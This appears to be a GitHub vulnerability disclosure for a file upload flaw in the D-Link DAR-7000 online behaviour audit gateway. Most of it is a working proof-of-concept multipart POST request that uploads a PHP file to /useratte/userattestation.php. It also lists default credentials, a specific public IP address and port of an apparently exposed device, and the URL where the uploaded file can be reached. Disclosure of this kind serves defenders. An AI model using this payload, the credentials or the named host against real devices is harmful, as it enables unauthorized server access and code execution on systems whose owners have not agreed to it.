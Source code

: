 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/useratte/userattestation.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc：
```
POST /useratte/userattestation.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=8659d83a54870e751279e17bd3ce73e1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 577
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328—

```

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/9abf14e5-d793-4acd-ab61-0a5e5b77e457">

https://60.22.74.195:8443/boot/web/upload/weblogo/1.php 

<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b55def74-7f88-49c9-bf07-479378e15c51">
